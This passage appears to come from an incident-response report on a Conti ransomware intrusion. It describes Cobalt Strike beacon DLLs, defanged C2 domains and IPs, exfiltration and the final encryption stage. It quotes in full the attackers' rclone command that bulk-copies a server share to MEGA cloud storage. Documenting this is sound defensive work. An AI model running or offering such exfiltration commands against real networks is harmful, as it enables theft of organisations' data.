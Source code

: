 D574.dll loaded by RunDll32 process with persistent DNS query activity to volga.azureedge[.]net, but no established network connectivity.

We observed that the DLL payload “D574.dll” had issues contacting the domain volga.azureedge[.]net and C2 server via DNS 9003 response codes.

External sandboxes show the domain tied to other Cobalt Strike beacon samples not associated with this report, it is likely the server was taken down by this time.



D8B3.dll illustrates initial activity, followed by established network connectivity to 82.117.252[.]143:80.

D8B3.dll was the Cobalt Strike beacon the attackers used throughout the intrusion. It was the main payload to facilitate the bulk of the initial intrusion and ongoing activities to maintain access. The DLL 143.dll used in lateral movement from the beachhead host to the backup server also communicated to this Cobalt Strike server. Once the attackers gained a foothold and pivoted laterally, they were able to switch to using RDP and access specific hosts of interest.



# Cobalt Strike Config

# Exfiltration
Once the attackers established access to critical assets, they used RClone to exfiltrate sensitive data to a cloud storage space named MEGA. The full command used by Rclone includes a variety of parameters, including setting the bandwidth limit.

rclone.exe  copy --max-age 2y "\\SERVER\Shares" Mega:DATA -q --ignore-existing --auto-confirm --multi-thread-streams 7 --transfers 7 --bwlimit 10M
The use of RClone continues to be an effective tool for bulk data exfiltration. NCC Group has provided a detailed write-up of the Rclone application and detection methods.

The Rclone activity was observed on two separate instances, each lasting around three hours and occurring between 1900 and 2200 UTC.

# Impact
On the fifth day, the threat actors moved to their final actions to encrypt the domain. They first pinged systems across the network via an interactive command shell. Iobit unlocker was also dropped during this phase but we did not see it used. After pinging systems, the threat actors opened a batch file that was ultimately used to launch the Conti ransomware.



The locker.bat is a bespoke script designed to encrypt files across a number of hosts:

Based on the contents of the file we can assess that the actors were likely making last minute adjustments before executing the ransomware based on the ping results.

The ransom was then launched via the backup server.


To encrypt systems the ransomware mounted the C$ dir for each target host and then performed its encryption routine.
